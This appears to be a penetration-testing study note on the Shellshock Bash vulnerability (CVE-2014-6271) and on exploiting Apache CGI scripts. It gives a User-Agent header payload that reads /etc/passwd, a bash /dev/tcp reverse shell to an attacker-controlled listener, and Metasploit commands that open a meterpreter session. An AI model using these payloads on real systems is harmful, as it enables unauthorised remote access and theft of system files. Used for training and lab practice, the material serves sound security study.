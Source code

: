 # 1 - Exploiting Bash CVE-2014-6271 Vulnerability Shellshock

### **CVE-2014-6271 - Shellshock**

* Shellshock (CVE-2014-6271) is the name given to a family of vulnerabilities in the Bash shell (since V1.3) that allow an attacker to execute arbitrary commands via Bash, consequently allowing the attacker to obtain remote access to the target system via a reverse shell.
* The Shellshock vulnerability was discovered by Stéphane Chazelas on the 12th of September 2014 and was made public on the 24 September 2014.
* Bash is a \*Nix shell that is part of the GNU project and is the default shell for most Linux distributions.
* The Shellshock vulnerability is caused by a vulnerability in Bash, whereby Bash mistakenly executes trailing commands after a series of characters: () {:;};.
* This vulnerability only affects Linux as Windows does not utilize Bash as it is not a \*Nix based operating system.
* In the context of remote exploitation, Apache web servers configured to run CGI scripts or .sh scripts are also vulnerable to this attack.
* CGI (Common Gateway Interface) scripts are used by Apache to execute arbitrary commands on the Linux system, after which the output is displayed to the client.

### **Shellshock Exploitation**

* In order to exploit this vulnerability, you will need to locate an input vector or script that allows you to communicate with Bash.
* In the context of an Apache web server, we can utilize any legitimate CGI scripts accessible on the web server.
* Whenever a CGI script is executed, the web server will initiate a new process and run the CGI script with Bash.
* This vulnerability can be exploited both manually and automatically with the use of an MSF exploit module.



## **Practical Demonstration**

`nmap -sV $ip` - scan.

First, look in the source code of the page of the web server to find .cgi scripts that are being used.

`nmap sV $ip --script=http-shellshock --script-args "http-shellshock.uri=<pathToCgiScript>"`  - Check if the web server is vulnerable to Shellshock with Nmap, the pathToCgiScript is "/gettime.cgi"

### Manual Exploitation using BurpSuite

1 - First, change the proxy to the BurpSuite proxy (with FoxyProxy for convenience).

2 - In BurpSuite, make sure that Proxy > Intercept is on.Then, refresh the cgi script page to intercept it with BurpSuite. In this case we are going to be injecting the special characters in the User Agent Http Header.

3 - Send the intercepted info to the repeater (Right click -> Send to repeater).

4 - Change the user-agent content to:&#x20;

`() { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'`

Then click send and watch the result of the command in the Response tab.

#### To get a reverse shell using Shellshock and BurpSuite:

`nc -nlvp 1234` - Set up a listener with Netcat on kali.

Enter malicious code into the BurpSuite request: by replacing the `'cat /etc/passwd'` field with..

`'bash -i>&/dev/tcp/$kali_ip/1234 0>&1'` &#x20;

Hit Send and we get a session from our listener.

### Automatic Exploitation with MSF

```bash
# start msfconsole.
service postgres start && msfconsole

search shellshock
use exploit/multi/http/apache_mod_cgi_bash_env_exec
options
set RHOSTS $ip
set TARGETURI /gettime.cgi
exploit
# we get a meterpreter session.
```

